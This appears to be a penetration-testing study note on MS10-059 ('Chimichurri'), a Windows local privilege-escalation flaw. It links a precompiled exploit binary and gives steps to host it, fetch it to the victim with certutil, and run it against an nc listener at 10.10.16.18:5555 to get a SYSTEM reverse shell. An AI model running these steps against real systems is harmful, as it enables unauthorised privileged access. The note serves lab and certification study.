 # Vunerability description
This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services.  
The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.  
An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability.  
The vulnerability could not be exploited remotely or by anonymous users.
# Precompiled payload
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled
# Steps to exploit
1. Download file Chimichurri.exe
2. Create a simple HTTP file server to host it (see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
3. From victim's machine, get the file (using certutil -> see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
4. Run the file
Assumptions: Attack machine: 10.10.16.18 / already run nc -nvlp 5555  
From Victim's machine: *Chimichurri.exe 10.10.16.18 5555*  
From Attack machine - in the nc screen -> will see connection with system privilege.  

